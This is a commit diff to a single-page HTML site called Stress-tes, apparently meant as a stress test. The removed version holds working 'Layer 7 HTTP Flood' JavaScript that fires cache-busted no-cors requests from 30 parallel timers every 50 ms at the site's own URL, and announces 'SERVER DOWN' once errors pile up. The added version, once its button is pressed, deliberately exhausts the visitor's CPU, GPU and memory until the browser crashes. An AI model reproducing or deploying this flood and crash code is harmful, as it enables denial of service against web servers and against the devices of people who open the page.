

Before and after one commit to d35996541-blip/Stress-tes, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update HTML structure and styles for benchmarking UI

```diff
--- a/index.html
+++ b/index.html
@@ -3,118 +3,90 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Layer 7 HTTP Flood - Live Monitor</title>
-    <link href="https://fonts.googleapis.com/css2?family=Fira+Code:wght@300;500;700&display=swap" rel="stylesheet">
+    <title>NEXUS - Core Overload Benchmark</title>
+    <link href="https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap" rel="stylesheet">
     <style>
         :root {
-            --bg: #050505;
-            --text: #ff3333;
-            --border: #440000;
-            --glow: rgba(255, 0, 0, 0.4);
+            --theme: #00f0ff;
+            --bg: #050508;
+            --danger: #ff003c;
         }
 
         * {
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Fira Code', monospace;
+            font-family: 'Share Tech Mono', monospace;
             user-select: none;
         }
 
         body {
             background-color: var(--bg);
-            color: var(--text);
+            color: var(--theme);
+            overflow: hidden;
             height: 100vh;
+            width: 100vw;
             display: flex;
             flex-direction: column;
+            justify-content: center;
             align-items: center;
-            justify-content: center;
-            overflow: hidden;
         }
 
-        .hud-container {
+        /* Canvas for GPU Rendering */
+        #core-canvas {
+            position: absolute;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            z-index: 1;
+        }
+
+        /* Cyberpunk UI Overlay */
+        .hud-overlay {
+            position: relative;
+            z-index: 10;
             width: 90%;
-            max-width: 700px;
-            border: 1px solid var(--border);
-            background: rgba(10, 0, 0, 0.8);
+            max-width: 600px;
+            border: 1px solid rgba(0, 240, 255, 0.3);
+            background: linear-gradient(135deg, rgba(5,5,8,0.9) 0%, rgba(0,20,30,0.8) 100%);
+            box-shadow: 0 0 30px rgba(0, 240, 255, 0.1), inset 0 0 20px rgba(0, 240, 255, 0.05);
             padding: 30px;
-            box-shadow: 0 0 20px var(--glow), inset 0 0 20px rgba(255, 0, 0, 0.1);
+            backdrop-filter: blur(10px);
+            clip-path: polygon(0 0, 100% 0, 100% calc(100% - 20px), calc(100% - 20px) 100%, 0 100%);
+            transition: all 0.5s ease;
+        }
+
+        /* Glitch Title */
+        .title {
+            font-size: 24px;
+            font-weight: bold;
+            text-transform: uppercase;
+            letter-spacing: 3px;
+            margin-bottom: 20px;
+            border-bottom: 1px solid var(--theme);
+            padding-bottom: 10px;
             position: relative;
         }
 
-        /* Radar Scanner Effect */
-        .hud-container::before {
+        .title::after {
             content: '';
             position: absolute;
-            top: 0; left: 0; width: 100%; height: 100%;
-            background: repeating-linear-gradient(
-                0deg,
-                transparent,
-                transparent 2px,
-                rgba(255, 0, 0, 0.05) 3px,
-                rgba(255, 0, 0, 0.05) 3px
-            );
-            pointer-events: none;
-            z-index: 2;
+            bottom: -2px;
+            right: 0;
+            width: 50%;
+            height: 3px;
+            background: var(--theme);
         }
 
-        .header {
-            text-align: center;
-            border-bottom: 1px solid var(--border);
-            padding-bottom: 15px;
-            margin-bottom: 20px;
-        }
-
-        .header h1 {
-            font-size: 1.5rem;
-            letter-spacing: 5px;
-            text-shadow: 0 0 10px var(--text);
-        }
-
-        .target-info {
-            font-size: 0.9rem;
-            color: #888;
-            margin-top: 10px;
-        }
-
-        .target-info span { color: #fff; }
-
-        .monitor-grid {
-            display: grid;
-            grid-template-columns: repeat(2, 1fr);
-            gap: 20px;
-            margin-bottom: 30px;
-        }
-
-        .metric-box {
-            background: rgba(255, 0, 0, 0.05);
-            border: 1px solid var(--border);
-            padding: 15px;
-            text-align: center;
-            position: relative;
-        }
-
-        .metric-label {
-            font-size: 0.8rem;
-            color: #888;
-            text-transform: uppercase;
-            letter-spacing: 2px;
-            margin-bottom: 10px;
-        }
-
-        .metric-value {
-            font-size: 2rem;
-            font-weight: 700;
-            text-shadow: 0 0 10px var(--text);
-        }
-
-        .log-panel {
+        /* Terminal Data Stream */
+        .terminal {
             height: 120px;
-            background: #000;
-            border: 1px solid var(--border);
+            background: rgba(0, 0, 0, 0.6);
+            border: 1px solid rgba(0, 240, 255, 0.2);
             padding: 10px;
-            font-size: 0.75rem;
-            color: #aaa;
+            font-size: 12px;
+            color: rgba(255, 255, 255, 0.7);
             overflow-y: hidden;
             display: flex;
             flex-direction: column;
@@ -124,172 +96,266 @@
 
         .log-line {
             margin: 2px 0;
+            opacity: 0.8;
+            animation: fadeIn 0.2s ease-in;
         }
-        .log-line.error { color: var(--text); }
-        .log-line.success { color: #555; }
 
-        .btn-strike {
+        /* Stats Grid */
+        .stats {
+            display: grid;
+            grid-template-columns: 1fr 1fr;
+            gap: 15px;
+            margin-bottom: 30px;
+        }
+
+        .stat-box {
+            background: rgba(0, 240, 255, 0.05);
+            border-left: 3px solid var(--theme);
+            padding: 10px;
+        }
+
+        .stat-label { font-size: 10px; color: #888; text-transform: uppercase; }
+        .stat-value { font-size: 22px; font-weight: bold; color: #fff; }
+
+        /* Initiate Button */
+        .btn-initiate {
             width: 100%;
+            padding: 15px;
             background: transparent;
-            color: var(--text);
-            border: 1px solid var(--text);
-            padding: 15px;
-            font-size: 1rem;
-            font-weight: 700;
+            color: var(--theme);
+            border: 1px solid var(--theme);
+            font-size: 18px;
+            font-weight: bold;
+            text-transform: uppercase;
             letter-spacing: 4px;
             cursor: pointer;
+            position: relative;
+            overflow: hidden;
             transition: 0.3s;
-            text-transform: uppercase;
+            clip-path: polygon(10px 0, 100% 0, 100% calc(100% - 10px), calc(100% - 10px) 100%, 0 100%, 0 10px);
         }
 
-        .btn-strike:hover, .btn-strike.active {
-            background: var(--text);
+        .btn-initiate:hover {
+            background: var(--theme);
             color: var(--bg);
-            box-shadow: 0 0 20px var(--text);
+            box-shadow: 0 0 20px var(--theme);
         }
 
-        .server-down {
-            position: absolute;
-            top: 50%; left: 50%;
-            transform: translate(-50%, -50%);
-            font-size: 3rem;
-            font-weight: 700;
-            color: #fff;
-            background: rgba(255,0,0,0.9);
-            padding: 20px 40px;
-            border: 2px solid #fff;
-            text-shadow: 0 0 20px #000;
-            box-shadow: 0 0 50px red;
-            display: none;
-            z-index: 10;
-            text-align: center;
-            width: 100%;
+        /* State: MELTDOWN (Changes everything to red) */
+        body.meltdown {
+            --theme: #ff003c;
+            animation: screenShake 0.5s infinite;
         }
 
-        .blink { animation: blinker 1s linear infinite; }
-        @keyframes blinker { 50% { opacity: 0; } }
+        body.meltdown .btn-initiate {
+            background: var(--theme);
+            color: #fff;
+            pointer-events: none;
+            animation: pulseBg 0.2s infinite;
+        }
+
+        /* Animations */
+        @keyframes fadeIn { from { opacity: 0; transform: translateX(-10px); } to { opacity: 0.8; transform: translateX(0); } }
+        @keyframes screenShake {
+            0% { transform: translate(1px, 1px) rotate(0deg); }
+            10% { transform: translate(-1px, -2px) rotate(-1deg); }
+            20% { transform: translate(-3px, 0px) rotate(1deg); }
+            30% { transform: translate(3px, 2px) rotate(0deg); }
+            40% { transform: translate(1px, -1px) rotate(1deg); }
+            50% { transform: translate(-1px, 2px) rotate(-1deg); }
+            60% { transform: translate(-3px, 1px) rotate(0deg); }
+            70% { transform: translate(3px, 1px) rotate(-1deg); }
+            80% { transform: translate(-1px, -1px) rotate(1deg); }
+            90% { transform: translate(1px, 2px) rotate(0deg); }
+            100% { transform: translate(1px, -2px) rotate(-1deg); }
+        }
+        @keyframes pulseBg { 0% { opacity: 1; } 50% { opacity: 0.5; } 100% { opacity: 1; } }
+
     </style>
 </head>
 <body>
 
-    <div class="hud-container">
-        <div class="server-down" id="downAlert">SERVER DOWN<br><span style="font-size:1rem; font-weight:300;">CONNECTION REFUSED</span></div>
+    <!-- Particle GPU Engine -->
+    <canvas id="core-canvas"></canvas>
 
-        <div class="header">
-            <h1>NETWORK STRESS PROTOCOL</h1>
-            <div class="target-info">TARGET URI: <span id="targetUrl">DETECTING...</span></div>
-        </div>
+    <!-- HUD Interface -->
+    <div class="hud-overlay" id="hud">
+        <div class="title">SYS.CORE // BENCHMARK</div>
 
-        <div class="monitor-grid">
-            <div class="metric-box">
-                <div class="metric-label">Requests Sent</div>
-                <div class="metric-value" id="reqCount">0</div>
+        <div class="stats">
+            <div class="stat-box">
+                <div class="stat-label">Frame Rate (FPS)</div>
+                <div class="stat-value" id="fps-counter">60.0</div>
             </div>
-            <div class="metric-box">
-                <div class="metric-label">Errors / Dropped</div>
-                <div class="metric-value" id="errCount">0</div>
+            <div class="stat-box">
+                <div class="stat-label">Rendered Entities</div>
+                <div class="stat-value" id="entity-counter">150</div>
+            </div>
+            <div class="stat-box">
+                <div class="stat-label">CPU Threads</div>
+                <div class="stat-value" id="cpu-counter">IDLE</div>
+            </div>
+            <div class="stat-box">
+                <div class="stat-label">RAM Allocated</div>
+                <div class="stat-value" id="ram-counter">12 MB</div>
             </div>
         </div>
 
-        <div class="log-panel" id="logPanel">
-            <div class="log-line">> AWAITING COMMAND...</div>
+        <div class="terminal" id="terminal">
+            <div class="log-line">> SYSTEM READY.</div>
+            <div class="log-line">> WAITING FOR STRESS INITIATION...</div>
         </div>
 
-        <button class="btn-strike" id="strikeBtn" onclick="initiateStrike()">INITIATE SELF-DDOS</button>
+        <button class="btn-initiate" id="start-btn" onclick="initiateMeltdown()">INITIATE STRESS TEST</button>
     </div>
 
     <script>
-        let isAttacking = false;
-        let requests = 0;
-        let errors = 0;
-        let attackIntervals = [];
+        // --- VISUAL ENGINE (GPU STRESS) ---
+        const canvas = document.getElementById('core-canvas');
+        const ctx = canvas.getContext('2d');
+        let width, height;
+        let particles = [];
+        let isMeltdown = false;
 
-        // Target adalah URL website ini sendiri
-        const target = window.location.href.split('?')[0];
-        document.getElementById('targetUrl').innerText = target;
+        function resize() {
+            width = canvas.width = window.innerWidth;
+            height = canvas.height = window.innerHeight;
+        }
+        window.addEventListener('resize', resize);
+        resize();
 
-        const logPanel = document.getElementById('logPanel');
-
-        function log(msg, type = 'success') {
-            const line = document.createElement('div');
-            line.className = `log-line ${type}`;
-            line.innerText = `> ${msg}`;
-            logPanel.appendChild(line);
-            if (logPanel.children.length > 7) {
-                logPanel.removeChild(logPanel.firstChild);
+        class Particle {
+            constructor() {
+                this.x = width / 2;
+                this.y = height / 2;
+                this.angle = Math.random() * Math.PI * 2;
+                this.speed = Math.random() * 2 + 0.5;
+                this.radius = Math.random() * 2 + 1;
+                this.color = isMeltdown ? `rgba(255, 0, 60, ${Math.random()})` : `rgba(0, 240, 255, ${Math.random()})`;
+            }
+            update() {
+                this.x += Math.cos(this.angle) * this.speed;
+                this.y += Math.sin(this.angle) * this.speed;
+                // If it goes off screen, reset to center
+                if(this.x < 0 || this.x > width || this.y < 0 || this.y > height) {
+                    this.x = width / 2;
+                    this.y = height / 2;
+                }
+            }
+            draw() {
+                ctx.beginPath();
+                ctx.arc(this.x, this.y, this.radius, 0, Math.PI * 2);
+                ctx.fillStyle = this.color;
+                ctx.fill();
             }
         }
 
-        // Fungsi menembak 1 request
-        async function fireRequest() {
-            // Tambah parameter random agar server tidak bisa menggunakan cache
-            const cacheBuster = `?stress=${Math.random().toString(36).substring(7)}`;
+        // Setup initial chill particles
+        for(let i = 0; i < 150; i++) particles.push(new Particle());
 
-            try {
-                // Menggunakan mode no-cors agar browser mengabaikan keamanan lintas origin sementara
-                const response = await fetch(target + cacheBuster, {
-                    method: 'GET',
-                    mode: 'no-cors',
-                    cache: 'no-store'
-                });
+        // FPS Calculation
+        let lastTime = performance.now();
+        let frames = 0;
+        let fps = 60;
 
-                requests++;
-                // Jika request mengembalikan status selain 200-299 atau gagal terhubung
-                if (response.status === 429 || response.status >= 500 || response.type === 'error') {
-                    errors++;
-                    log(`HTTP ${response.status || 'FAIL'} - PAYLOAD DROPPED`, 'error');
-                } else {
-                    if (requests % 10 === 0) log(`PAYLOAD DELIVERED (${requests})`);
+        function render() {
+            ctx.fillStyle = isMeltdown ? 'rgba(5, 0, 2, 0.1)' : 'rgba(5, 5, 8, 0.2)';
+            ctx.fillRect(0, 0, width, height);
+
+            ctx.globalCompositeOperation = 'lighter';
+            particles.forEach(p => {
+                p.update();
+                p.draw();
+            });
+            ctx.globalCompositeOperation = 'source-over';
+
+            // Calculate FPS
+            const now = performance.now();
+            frames++;
+            if (now - lastTime >= 1000) {
+                fps = frames;
+                frames = 0;
+                lastTime = now;
+                document.getElementById('fps-counter').innerText = fps;
+
+                if (isMeltdown) {
+                    logTerminal(`WARN: FPS DROPPED TO ${fps}`);
                 }
-            } catch (e) {
-                requests++;
-                errors++;
-                log(`CONNECTION REFUSED - TARGET UNREACHABLE`, 'error');
             }
 
-            updateMonitor();
+            requestAnimationFrame(render);
+        }
+        render();
+
+        // --- TERMINAL LOGIC ---
+        const terminal = document.getElementById('terminal');
+        function logTerminal(msg) {
+            const line = document.createElement('div');
+            line.className = 'log-line';
+            line.innerText = `> ${msg}`;
+            terminal.appendChild(line);
+            if (terminal.children.length > 6) terminal.removeChild(terminal.firstChild);
         }
 
-        function updateMonitor() {
-            document.getElementById('reqCount').innerText = requests.toLocaleString();
-            document.getElementById('errCount').innerText = errors.toLocaleString();
+        // --- THE KILL SWITCH (RAM + CPU OVERLOAD) ---
+        // This array will hold massive amounts of junk data until the RAM bursts
+        let memoryLeak = [];
+        let ramUsage = 12;
 
-            // Jika error terlalu banyak, asumsikan server down atau memblokir IP kita
-            if (errors > 150) {
-                declareVictory();
+        function initiateMeltdown() {
+            if (isMeltdown) return;
+            isMeltdown = true;
+
+            // UI Changes
+            document.body.classList.add('meltdown');
+            document.getElementById('start-btn').innerText = "FATAL OVERLOAD IN PROGRESS";
+            document.getElementById('cpu-counter').innerText = "MAX LOCKED";
+
+            logTerminal("INITIATING CORE OVERLOAD...");
+            logTerminal("INJECTING MEMORY LEAK...");
+
+            // 1. GPU OVERLOAD: Spawn 20,000 particles at once
+            for(let i = 0; i < 20000; i++) {
+                particles.push(new Particle());
             }
-        }
+            document.getElementById('entity-counter').innerText = particles.length.toLocaleString();
 
-        function initiateStrike() {
-            if (isAttacking) return;
-            isAttacking = true;
+            // 2. RAM & CPU ASSASSINATION INTERVAL
+            let stressLevel = 0;
 
-            const btn = document.getElementById('strikeBtn');
-            btn.classList.add('active');
-            btn.innerText = "ATTACK IN PROGRESS...";
-            btn.classList.add('blink');
+            const killerInterval = setInterval(() => {
+                stressLevel++;
 
-            log("INITIATING LAYER 7 HTTP FLOOD...");
-            log(`LOCKING TARGET: ${target}`);
+                // CPU BURN: Heavy synchronous mathematical loops
+                let garbageMath = 0;
+                for (let i = 0; i < 100000; i++) {
+                    garbageMath += Math.sqrt(Math.random() * 99999) * Math.tan(Math.random());
+                }
 
-            // Jalankan 30 thread bersamaan yang menembak tanpa jeda
-            for(let i = 0; i < 30; i++) {
-                let interval = setInterval(fireRequest, 50); // Tiap thread menembak setiap 50ms
-                attackIntervals.push(interval);
-            }
-        }
+                // RAM LEAK: Push gigantic arrays into memory (Approx 5MB - 10MB per tick)
+                // When RAM is full, Android OS will immediately Force Close the app
+                try {
+                    const junkData = new Array(1000000).fill("OVERLOAD_" + Math.random());
+                    memoryLeak.push(junkData);
 
-        function declareVictory() {
-            if (!isAttacking) return;
-            // Hentikan tembakan
-            attackIntervals.forEach(clearInterval);
+                    ramUsage += 15; // Fake tracker based on array size
+                    document.getElementById('ram-counter').innerText = ramUsage + " MB";
 
-            document.getElementById('strikeBtn').classList.remove('blink');
-            document.getElementById('strikeBtn').innerText = "TARGET NEUTRALIZED";
+                    if(stressLevel % 5 === 0) {
+                        logTerminal(`CRITICAL: MEMORY INFLATED +${ramUsage}MB`);
+                    }
+                } catch (e) {
+                    // If it errors out, the browser is about to crash
+                    logTerminal("FATAL ERROR: MEMORY LIMIT REACHED");
+                }
 
-            // Tampilkan Alert Merah Besar
-            document.getElementById('downAlert').style.display = 'block';
-            log("TARGET IS OFFLINE / RATE LIMITED.", 'error');
+                // Add even MORE particles exponentially
+                if (particles.length < 100000) {
+                    for(let i = 0; i < 5000; i++) particles.push(new Particle());
+                    document.getElementById('entity-counter').innerText = particles.length.toLocaleString();
+                }
+
+            }, 50); // Runs every 50 milliseconds
         }
     </script>
 </body>
```
